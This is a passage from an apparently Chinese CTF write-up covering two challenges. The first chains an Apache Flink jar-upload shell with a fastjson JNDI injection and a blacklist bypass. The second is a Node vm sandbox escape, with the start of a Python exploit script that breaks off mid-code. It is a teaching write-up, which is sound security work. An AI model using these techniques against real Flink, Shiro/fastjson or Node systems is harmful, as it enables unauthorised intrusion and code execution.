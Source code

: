 ### <a class="reference-link" name="%E5%B1%82%E5%B1%82%E7%A9%BF%E9%80%8F"></a>层层穿透

第一层是一个Apache Flink的任意jar包上传漏洞，网上有现成的复现，msf生成一个jar上传执行然后就能getshell

进入后查看`/etc/hosts`发现有内网环境，而且也给出了内网地址，发现内网还存在一个主机，并且开放8080端口，发现存在shiro框架，结合`web.jar`发现需要登录，以`admin 123456`登录后发现`/admin/test`存在`json.parse`结合fastjson版本可以构造json数据进行JNDI注入

长度可以添加脏数据绕过，黑名单的话是使用`org.apache.shiro.realm.jndi.JndiRealmFactory`触发类

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01a5ca22bb938ce75d.png)

[![](https://p2.ssl.qhimg.com/t01ac623a6044770119.png)](https://p2.ssl.qhimg.com/t01ac623a6044770119.png)

### <a class="reference-link" name="crawler_z"></a>crawler_z

题目是考察沙箱逃逸，发现`zombie`有vm库并且在解析script和url的时候调用<br>
runInContext，将`script`内容作为第一个参数code

[https://www.kitsch.live/2020/11/23/nodejs-vm%E6%B2%99%E7%AE%B1%E9%80%83%E9%80%B8/](https://)

可以使用this.constructor.constructor沙箱逃逸，本地构造构造一个html，写好对应的script

[![](https://p2.ssl.qhimg.com/t018bab15d56e743df3.png)](https://p2.ssl.qhimg.com/t018bab15d56e743df3.png)

```
import requests
import requests

url = "http://eci-2zedk1cbvvahdw0qqutk.cloudeci1.ichunqiu.com:8888/"

s = requests.session()

def signup(name):
    signup_url = url + 'signin'
    data = `{`
        'username': name,
        'password': name,
    `}`
    tmp = s.post(url=signup_url,data=data)
    #print(tmp.text)

def change(bucket):
    change_url = url + "user/profile"

    burp0_url = change_url
    burp0_cookies = `{`"UM_distinctid": "17b3b13d148148-0b15ca7c6d5376-35607403-1aeaa0-17b3b13d149826",
                     "CNZZDATA155540": "cnzz_eid%3D1910689585-1628779580-%26ntime%3D1628784980",
                     "connect.sid": "s%3AUbIPQ4BQWGBQ4Ym1FG3Eqh4c7PPKC2I5.NMUmomM4LvCfTVTOKnXRk%2BzZD4CnUL7vr6QYNYZGsz4"`}`
    burp0_headers = `{`"Cache-Control": "max-age=0", "Upgrade-Insecure-Requests": "1",
                     "Origin": "http://192.168.0.11:9999", "Content-Type": "application/x-www-form-urlencoded",
                     "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36",
                     "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9",
                     "Referer": "http://192.168.0.11:9999/user/profile", "Accept-Encoding": "gzip, deflate",
                     "Accept-Language": "zh-CN,zh;q=0.9", "Connection": "close"`}`
    burp0_data = `{`"affiliation": "ichunqiu", "age": "20",
```